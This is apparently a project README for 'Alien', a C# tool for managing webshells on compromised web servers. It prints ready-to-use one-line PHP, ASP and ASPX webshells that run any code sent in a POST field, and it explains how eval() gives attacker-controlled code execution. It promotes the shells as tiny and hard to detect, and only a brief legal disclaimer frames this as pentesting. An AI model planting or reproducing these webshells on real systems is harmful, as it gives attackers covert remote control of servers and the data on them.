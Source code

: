 # Alien

Website Manager

## Disclaimer
This tool only use in legal pentest, reasearch and website management\
You should take the consequence if you use in illegal purpose.

## Language
C# .NET Framework V4.8

## OneShell
OneShell is a tool use in pentesting for control the server.\
It can be very tiny and very difficult to be found.
These are the simplest oneshell.

- PHP
```<?php @eval($_POST['password']);?>```
- ASP
```<%execute(request("password"))%>```
- ASPX
```<%@ Page Language="Jscript"%><%eval(Request.Item["password"])%>```

Also, Alien support asmx , ashx webshell

## Server Manager
- MySQL : PHP
- Access : https://github.com/malbuffer4pt/DBer
- SQL Server : ASP ASPX ASMX ASHX

## Principle
For PHP, eval() function can evaluate the string as a code.\
if eval() contains a controllable variable, then we can execute any code we like.\
Example: eval($_POST['a']);\
HTTP POST a=phpinfo();\
The the server will execute code "phpinfo();"

## Screenshot
![5](https://github.com/malbuffer4pt/Alien/blob/main/5.png)
![1](https://github.com/malbuffer4pt/Alien/blob/main/1.png)
![2](https://github.com/malbuffer4pt/Alien/blob/main/2.png)
![3](https://github.com/malbuffer4pt/Alien/blob/main/3.png)
![4](https://github.com/malbuffer4pt/Alien/blob/main/4.png)

## Acknowledgements
Every veteran who study in webshell.
